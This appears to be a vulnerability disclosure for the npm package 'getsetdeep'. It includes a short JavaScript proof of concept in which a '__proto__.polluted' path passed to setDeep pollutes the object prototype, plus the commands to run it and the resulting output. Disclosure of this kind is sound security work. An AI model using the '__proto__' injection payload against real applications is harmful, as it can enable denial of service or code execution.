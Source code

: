 # Description

`getsetdeep` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { setDeep } = require('getsetdeep')

console.log(`Before: ${{}.polluted}`)
setDeep({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i getsetdeep # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

